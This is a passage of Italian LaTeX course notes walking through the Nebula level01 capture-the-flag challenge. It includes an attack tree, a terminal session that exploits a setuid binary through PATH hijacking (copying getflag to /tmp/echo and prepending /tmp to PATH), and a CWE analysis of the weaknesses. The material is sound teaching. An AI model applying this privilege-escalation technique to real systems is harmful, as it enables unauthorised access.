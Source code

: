 Nell'albero di attacco sono colorati in rosso i nodi e gli archi che rappresentano le azioni da effettuare. Le seguenti operazioni sono eseguibili tranquillamente dall'utente \texttt{level01}:
\begin{itemize}
    \item Copia di \texttt{/bin/getflag} in \texttt{/tmp/echo}
    \item Modifica \texttt{PATH=/tmp:\$PATH}
    \item Login come utente \texttt{level01}
    \item Esecuzione di \texttt{/home/flag01/flag01}
\end{itemize}

\textbf{Ricorda}: ha senso provare i comandi al terminale solo dopo aver popolato un albero di attacco e aver individuato una serie di percorsi dai nodi foglia al nodo radice. Grazie all'albero di attacco, la procedura di verifica dell'attacco diventa banale. Di seguito vediamo la risoluzione della sfida:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
Ubuntu 11.10 ubuntu tty1

ubuntu login: level01
Password:
Last login: Thu Apr 6 17:17:50 PDT 2017 on tty1
Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation: https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

level01@ubuntu:-$ cp /bin/getflag /tmp/echo
level01@ubuntu:-$ PATH=/tmp:$PATH
level01@ubuntu:-$ /home/flag01/flag01
You have successfully executed getflag on a target account
level01@ubuntu:-$

\end{lstlisting}

\end{mdframed}

La vulnerabilità presente in \texttt{level1.c} si
verifica solo se diverse debolezze sono
presenti e sfruttate contemporaneamente. Ma quali sono queste debolezze e che CWE ID hanno?

\subsubsection{Debolezza 1}
Il binario \texttt{/home/flag01/flag01} ha privilegi di esecuzione ingiustamente elevati. La CWE di riferimento è la \textbf{CWE-276 - Incorrect Default Permissions}.

